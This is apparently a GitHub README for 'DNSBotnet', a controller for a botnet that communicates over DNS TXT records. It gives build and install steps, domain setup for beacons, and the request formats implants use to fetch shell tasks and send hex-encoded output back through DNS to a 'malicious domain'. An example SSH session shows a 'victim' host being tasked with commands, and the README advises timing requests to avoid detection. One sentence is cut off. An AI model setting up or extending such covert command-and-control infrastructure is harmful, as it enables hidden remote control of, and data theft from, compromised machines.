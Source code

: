 DNSBotnet
=========
Controller for a DNS TXT record-based botnet.

Work in progress, though works pretty well as-is.



More documentation (and ease-of-use) will be implemented in the future.

For legal use only.

Building / Installation
-----------------------
The botnet Controller (in the same directory as this file) can be built and
installed with the customary
```bash
go get github.com/magisterquis/dnsbotnet
```
or
```bash
git clone github.com/magisterquis/dnsbotnet
cd dnsbotnet
go build
```

Aside from the binary, an NS record for the domain to be used for beacons must
be set up such that the Controller will receive DNS requests from recursive
resolvers.  This usually means setting a glue (A) records or two and an NS
record with the registrar to point to the IP address of the Controller.

A file containing the SSH public keys should be made to authenticate C2 clients
(i.e. botnet Controller users).  This file is in the same format as OpenSSH's
`authorized_keys`. and is named `authorized_keys.dnsbotnet` by default.

Implants / Protocol
-------------------
Each individual implant has a README with more information.

There are two DNS request formats that the Controller understands: beacons
and output.  In general, clients should beacon periodically to check for
tasking, and if tasking is received, execute it and return any output with
a further series of DNS requests.

The timing of DNS requests is left up to the implant.  They should be fast
enough to allow for usage (interactive, if desired), but slow enough not to get
caught.

### Beacons
Beacon requests should have exactly one name in the following format:
```
ignored.counter.t.implantid.domain
```
The response will either contain a single text record with the task to execute
or no responses at all.  How the tasking is executed is up to the implant.  The
implants contained within this repository run the tasking as a shell command
and return its stdout and stderr.  The meaning of each part of the name will be
explained below.

### Output
Output requests should have exactly one name in the following format:
```
outhex.counter.o.implantid.domain
```
The response will always have 0 records.  The output is printed to any C2
Clients which request it, explained below.  The meaning of each part of the
name will be explained below.  The output should be carefully chunked to

### Names
Request and response names have the following parts

|Label|Meaning|Example|
|-----|-------|-------|
|ignored   | Ignored, for symmetry with beacons.                                                                                   | 0           |
|outhex    | Tasking output, hex-encoded.  The maximum length is 31 bytes (62 hex digits).                                         | 4920616d20313333370a |
|counter   | A unique number per request to prevent caching (i.e. cachebusting).                                                   | 37          |
|t         | A literal t, to signify a beacon (request for tasking).                                                               | t           |
|o         | A literal o, to signify an output request.                                                                            | o           |
|implantid | An ID chosen by the implant to uniquely identify itself.  IP addresses with dots replaced by dashes are good choices. | 192-168-11-11 |
|domain    | The malicious domain.                                                                                                 | example.com |

A beacon name might look like
```
0.3580645942777501247.t.192-168-11-11.example.com
```
An output name might look like
```
202020202020202020202020203634353220436f6e736f6c65202020202020.1150749505258401772.o.192-168-11-11.example.com
```

C2 Clients
----------
All acutal tasking of bots is done by first SSHing to the Controller, then
issuing commands via SSH.  A complete list of commands is available with the
`help` command.

The C2 client session can either be used to display tasking output or beacons
(which may be filtered to only show certain beacons of interest).

Example C2 session:
```
$ ssh -p 10987 c2server.com
Welcome to the DNSBotnet Server!

Available commands:
help        - This message
id          - Show all beacons
idr <regex> - Show beacons from implants matching regex
id <ID>     - Show a particular implant's output (not beacons)
t <ID>      - Task the current implant (after ID is set)
last [n]    - Show the [n most recent] beacons from all implants
exit        - Goodbye.

2018/02/16 05:28:54 [192-168-11-11] Beacon (2143406018522754847)
2018/02/16 05:28:56 [192-168-11-11] Beacon (2143406018522754848)
2018/02/16 05:28:58 [192-168-11-11] Beacon (2143406018522754849)
2018/02/16 05:29:01 [192-168-11-11] Beacon (2143406018522754850)
> id 192-168-11-11
2018/02/16 05:29:06 Watching implant with ID "192-168-11-11"
192-168-11-11> t uname -a
2018/02/16 05:29:12 Queued task for implant 192-168-11-11: "uname -a"
OpenBSD victim.example.com 6.2 GENERIC.MP#134 amd64
192-168-11-11> last 1
ID            Queued Last Seen
--            ------ ---------
192-168-11-11 0      2018-02-16T05:29:31Z (4.8s)

Current time is 2018-02-16T05:29:36Z
192-168-11-11> exit
```

Unless a particular implant is specified with the `id` command, only beacons
will be printed.  To interact with a particular implant, use the `id` command
to specify the implant by ID  and then the `t` command to give it tasking.
Output from tasking will be printed to the terminal.  The `last` commands work
whether an implant is selected or not.  The `idr` command and the `id` command
without an implant ID can be used to return to printing beacons.

In practical usage, it's helpful to have one C2 connection showing beacons as
they come in and one or more to interact with implants.

Logging
-------
A log file is generated with all tasking and output.  It can be used as a
history of commands run as well as to recover output lost when tasking finished
after `id` was used to view another implant's output.
